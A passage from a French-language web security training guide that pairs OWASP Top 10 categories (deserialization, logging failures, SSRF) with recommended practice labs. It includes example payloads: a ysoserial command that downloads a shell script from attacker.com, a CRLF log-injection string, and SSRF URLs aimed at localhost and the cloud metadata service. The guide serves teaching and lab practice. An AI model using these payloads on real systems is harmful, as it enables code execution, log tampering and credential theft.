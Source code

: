 **Exemple d'exploitation :**
```
# Exploitation d'une désérialisation Java
# Payload généré avec ysoserial
java -jar ysoserial.jar CommonsCollections5 'wget http://attacker.com/shell.sh -O /tmp/shell.sh' | base64
```

#### A09:2021 – Security Logging and Monitoring Failures

L'absence de journalisation et de surveillance adéquates empêche la détection des attaques.

**Vulnérabilités principales :**
- Absence de journalisation des événements critiques
- Logs non surveillés
- Alertes absentes ou inefficaces
- Absence de détection d'intrusion

**Labs recommandés :**
- Juice Shop : "Access Log"
- OWASP WebGoat : "Logging Security"
- Custom lab : "Log Poisoning"

**Exemple d'exploitation :**
```
# Injection dans les logs pour masquer une attaque
# Injection de caractères de nouvelle ligne pour fragmenter les entrées de log
username=admin%0d%0aAuthentication+successful
```

#### A10:2021 – Server-Side Request Forgery (SSRF)

Le SSRF permet à un attaquant de forcer le serveur à effectuer des requêtes non prévues.

**Vulnérabilités principales :**
- Accès à des services internes
- Contournement de pare-feu
- Exfiltration de données
- Scan de ports internes

**Labs recommandés :**
- PortSwigger : "Basic SSRF against the local server"
- Juice Shop : "SSTi"
- DVWA : "File Inclusion" (variante)

**Exemple d'exploitation :**
```
# SSRF basique pour accéder à un service interne
https://example.com/fetch?url=http://localhost:8080/admin

# SSRF pour accéder aux métadonnées cloud
https://example.com/fetch?url=http://169.254.169.254/latest/meta-data/
```

#### Tableau de correspondance OWASP Top 10 et labs
